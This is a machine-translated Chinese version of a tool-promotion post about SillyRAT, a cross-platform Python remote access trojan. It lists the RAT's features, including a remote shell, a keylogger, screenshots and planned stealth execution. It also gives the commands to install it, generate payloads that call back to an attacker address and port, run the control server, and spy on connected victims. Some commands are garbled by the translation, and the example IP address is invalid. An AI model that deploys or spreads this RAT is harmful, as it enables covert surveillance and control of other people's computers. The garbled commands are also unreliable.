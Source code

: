 # SillyRAT:一种跨平台多功能(Windows/Linux/Mac) RAT

> 原文：<https://kalilinuxtutorials.com/sillyrat/>

[![](img/95d354fe8d7ad45309471e2f3a7f1f28.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjuRDFwjeyEJItTwIg2_Hniq7fKObpoAYneXZ57gOyfVpkeUpDqwFYrmLsTtrNzJIW51FXcw_skttW8rvhaLPD-ND2rwDt2nO4P21WkGR3aBX_5ni4jqiCQU9mkTwe1QScVCCsim8K9j3jTyohVwZSRbJsdUzweD2ggtn_Cu6mafYWJMGZZswJIrTl-=s728)

**SillyRAT** 是纯 Python 写的跨平台 RAT。RAT 接受带有参数的命令，或者作为接受连接的服务器，或者作为与服务器建立连接的客户端/目标。**生成**命令使用模块 **pyinstaller** 来编译实际的有效载荷代码。因此，为了为您各自的平台生成有效载荷文件，您需要在生成文件时在那个平台上。此外，您还可以直接获取源文件。

**特色**

*   用于命令执行的内置外壳
*   转储系统信息，包括驱动器和内存
*   截图模块。捕获客户端屏幕截图。
*   连接循环(将在连接到服务器时继续)
*   目前，它使用 BASE64 编码。
*   纯 Python
*   跨平台。(在 Linux 上测试。接受错误)
*   包含用于测试的源文件
*   python3

****未来****

 ***   秘密执行
*   加密
*   存储上次尝试的会话
*   当客户端连接时推送通知

装置

该工具在装有 **Python 3.8** 的 **Parrot OS** 上进行测试。按照以下步骤进行安装:

**$ git 克隆 https://github.com/hash3liZer/SillyRAT.git
$ CD SillyRAT/
$ pip 3 install-r requirements . txt**

**文档**

**生成有效载荷**

您可以通过两种方式获取有效负载文件:

*   源文件
*   编译文件

源文件在所有平台上都保持不变。所以，你可以在一个平台上生成它，在另一个平台上使用它。获取源文件:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/payload . py–source**

编译版本必须在各自的平台上生成。例如，您不能生成。Linux 上的 exe 文件。你特别需要在 Windows 上。该工具仍在测试中。所以，各种错误都是可以接受的。不过，一定要打开一个问题。为 Linux 生成编译版本:

**$ python 3 server . py generate–地址 134 . 276 . 92 . 1–端口 2999–output/tmp/filer**

![](img/495f64c77a792cc6a650814afef360bc.png)

在上述命令中替换您的 IP 地址和端口。

**运行服务器**

服务器必须在 Linux 上执行。你可以买一个 VPS 或者云服务器来连接。根据记录，服务器不会存储上次运行后的任何会话。因此，一旦服务器应用程序终止，所有的进程都将丢失。运行您的服务器:

**$ python 3 silly rat . py bind–地址 0 . 0 . 0 . 0–端口 2999**

**连接**

所有连接将在**会话**命令下列出:

**$ sessions**

![](img/d95651d5fd1544a5c0bb0a4267b1437b.png)

您可以使用 **connect** 命令连接到您的目标会话，并启动其中一个可用命令:

**$连接 ID
$键盘记录器在
$键盘记录器转储
$截图**

![](img/e44acaa540de8868b1246115b34b9a56.png)

**帮助**

获取可用命令的列表:

**$ help**

特定命令的帮助:

**$ help 命令**

[**Download**](https://github.com/hash3liZer/SillyRAT)**